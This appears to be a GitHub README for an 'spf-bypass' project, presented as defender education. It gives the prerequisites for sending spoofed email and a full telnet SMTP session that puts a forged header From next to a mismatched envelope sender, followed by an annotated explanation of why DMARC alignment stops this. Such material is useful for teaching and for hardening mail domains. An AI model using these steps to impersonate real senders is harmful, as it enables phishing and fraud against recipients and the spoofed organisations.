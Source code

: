 # spf-bypass
See this blog for an overview of [email spoofing techniques](https://caniphish.com/phishing-resources/blog/sending-spoofed-emails).

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see below for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

To perform an SPF-bypass attack, simply run the below telnet commands that can be executed on any Windows or Linux endpoint. Replace <target.mailserver.com> with the target mail server you're delivering the spoofed email to (i.e. the recipient - lookup the MX record of the recipient domain to identify this), replace <attacker@attackerdomain.com> with the domain you procured and setup earlier, replace <Legitimate_Sender@spoofed.com> with the address and domain you're spoofing and replace <target@target.com.au> with your target recipient.


    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .

What we're abusing here is a weakness in the way emails are delivered, authenticated and presented to a users screen. If we break down each component of the above mail delivery we can see how the SPF-bypass abuses a domain misalignment between the Mail Envelope 'SMTP.MailFrom' and Mail Header 'From':

    telnet target.mailserver.com 25 
    helo attackerdomain.com <--- If the SMTP.MailFrom is empty (row below), SPF authentication instead relies on the SMTP.helo
    mail from: attacker@attackerdomain.com <-- This is where SPF checks are typically performed. If we mis-align this to the Mail Header 'From' we can trick the recipient
    rcpt to: target@target.com.au
    data <--- Everything from here down is presented to the user in the traditional email format. Everything above is hidden from the user as the Mail Envelope
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com> <--- This is where SPF-bypass occurs - DMARC protects against this by performing an alignment check betwen both 'From' values
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test
    
    .

